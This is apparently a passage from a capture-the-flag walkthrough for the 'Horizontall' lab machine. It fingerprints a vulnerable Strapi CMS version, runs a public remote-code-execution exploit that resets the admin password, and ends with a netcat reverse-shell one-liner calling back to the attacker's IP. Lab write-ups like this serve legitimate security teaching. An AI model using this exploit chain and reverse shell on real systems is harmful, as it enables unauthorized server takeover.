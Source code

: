 ```json
    {
        "id": 3,
        "name": "john",
        "description": "create service with minimum price i hop i can buy more in the futur",
        "stars": 5,
        "created_at": "2021-05-29T13:25:26.000Z",
        "updated_at": "2021-05-29T13:25:26.000Z"
    }
]
```

Note the `X-Powered-By` header: `Strapi <strapi.io>`. `api-prod.horizontall.htb` is a [Strapi CMS instance](https://strapi.io/).

---

## RCE to Foothold

A [remote code execution vulnerability exploit](https://www.exploit-db.com/exploits/50239) is available for Strapi version `3.0.0-beta.17.4`. The exploit appears to submit a `GET` request to `/admin/init` to determine its version. Submitting the same request confirms that the target is running the vulnerable version of Strapi.

```json
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Sep 2021 20:54:01 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 144
Connection: close
Vary: Origin
Content-Security-Policy: img-src 'self' http:; block-all-mixed-content
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Powered-By: Strapi <strapi.io>

{
    "data": {
        "uuid": "a55da3bd-9693-4a08-9279-f9df57fd1817",
        "currentEnvironment": "development",
        "autoReload": false,
        "strapiVersion": "3.0.0-beta.17.4"
    }
}
```

The exploit works perfectly, though with a catch. It is blind remote code execution. Execute the following to receive a reverse shell.

```bash
python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMxMzExODI3LCJleHAiOjE2MzM5MDM4Mjd9.X4FJJ-SnG0RaTX6KsJCZWeVAu24Z1Drzp1kzma6zfEw


$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.194 443 >/tmp/f
```